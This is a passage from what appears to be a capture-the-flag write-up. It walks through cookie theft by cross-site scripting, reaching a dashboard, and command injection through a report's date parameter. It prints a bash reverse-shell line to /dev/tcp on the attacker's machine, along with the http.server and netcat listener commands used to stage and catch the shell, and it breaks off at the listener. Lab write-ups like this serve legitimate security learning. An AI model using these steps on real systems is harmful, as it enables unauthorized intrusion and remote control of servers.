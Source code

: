 And open python http.server to grab the response to our server.

```bash
python3 -m http.server 80
```

I didn't get it with just write the payload within the message input so I try to write it within the user-agent
within the request too.

![image](https://cdn-images-1.medium.com/max/1000/1*uoDYuNFrg7U74zEbmyuAQQ.png)

After sending it, I got a cookie.

![image](https://cdn-images-1.medium.com/max/1000/1*443qDOfnStbXECLKBRsaqw.png)


Now, let's move to /dashboard and include the cookie inside the page.

so from unauthorized, we moved into the dashboard.


![image](https://cdn-images-1.medium.com/max/1000/1*zgdqSF_C2n03079ojjPjtw.png)


I clicked on generate report button and grab the request in burp.

There is a date parmater so try to run an os commands:

![image](https://cdn-images-1.medium.com/max/1000/1*cESek45-a5P__jktX1COHg.png)


```bash
"uname" command supposed to give us the name of os system that runs which is: linux
```

After sending the request with the command I could see the output of the command inside the response.


![image](https://cdn-images-1.medium.com/max/1000/1*BgdyTMFVleT5wYa6Fe7grA.png)


I tried to run reverse shell payload and it didn't work, so I created a file that includes 
reverse shell, open another http server to run a command that pulls the file and runs it:

First, The revshell file:

```bash
#/bin/bash
/bin/bash -c 'exec bash -i >& /dev/tcp/<tun-0>/3333 0>&1'
```

Second, open http server within the directory that includes the file.

```bash
python3 -m http.server 8000
```

third, set net listener:

```bash
nc -lnvp 3333
```
